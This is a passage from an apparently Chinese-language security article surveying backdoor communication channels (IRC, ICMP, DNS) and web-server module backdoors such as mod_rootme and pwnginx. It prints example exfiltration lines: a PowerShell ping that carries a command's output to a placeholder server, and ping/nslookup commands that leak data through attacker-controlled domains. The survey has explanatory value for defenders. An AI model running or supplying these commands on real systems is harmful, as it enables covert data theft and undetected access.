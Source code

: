 更多详细的可参考《C&C控制服务的设计和侦测方法综述》

2. irc型

irc的木马优点很多，比如管理方便，便于远控协调分工，channel隐藏，追溯难。

缺点很明显，国内只有较少的用户使用irc，用户防火墙可能会拦截该流量，具体情况根据地区而定。

关于这部分irc木马的中文实例资料可参考：http://www.freebuf.com/articles/web/110859.html

3. icmp型

http://p4.qhimg.com/t01533ed3c05bb2526d.jpg

ICMP通信协议中可看到在最后空余了很大的data段，名为数据缓冲区，可填充60000多字节。因此，可将被控端得到的数据放入其中：


$cmd = ls;
$timeout = 1000;
$server_ip = 'xxxx';
(New-Object System.Net.NetworkInformation.Ping).Send($server_ip, $timeout, $cmd)
在server_ip上抓包可看到返回结果。

4. dns型

DNS原理在这不过多展开，这种类型的逃逸方法一般是用自己申请的域名，将NS记录指向搭建的NS服务器上，使用DNS泛解析，把用户所查询关于该域名的信息记录下来。

ping -c 2 `whoami`.xxxx.ceye.io
或者

nslookup -querytype=txt $data.ns.lynahex.com 8.8.8.8
不过使用如上的常规方法，似乎会对data长度有限制。

自建NS服务器的源码可看NoEye

（题外话：有的厂商从数据库中查询指定域名的txt记录时并未过滤，可能会有sql注入。:-D。）

该类流行的木马可参考dnscat2,它涉及了更底层的包构造，即使没有域名，也可使用该协议进行通信。

具体用法如下：http://bl4ck.in/index.php/penetration/use-dns-to-bypass-firewall.html

……

总的来说，这类后门依赖于上层协议，符合人们常用协议的范围，同时，攻击者也在探寻新兴的协议来exfiltrate。



网站类

传统的后门中自然少不了该类型，从用户发出数据请求开始到最终落入网站的数据库中，经过服务端的每一环节都有可能成为攻击者利用的地方。

1. 模块扩展型

中间件之所以能被利用，是因为它们的可扩展性，当布置完模块或插件时，中间件无法判断开发者的行为是否为恶意。

1.1 apache

将后门增加到apache模块目录中，攻击者只需要简单地发起一个请求就可拿到root权限的shell，并且没有任何日志记录。最出名的莫过于mod_rootme

具体操作可参考：http://bl4ck.in/index.php/penetration/apache-port-reuse-backdoor.html

1.2 nginx

nginx占有内存少，并发能力强，受到很多用户的喜爱。它可很方便地添加和升级模块，同理，pwnginx作为经典的后门也是应用了该原理，程序员只需将正常的功能稍微改动，就能达到另一面的效果。
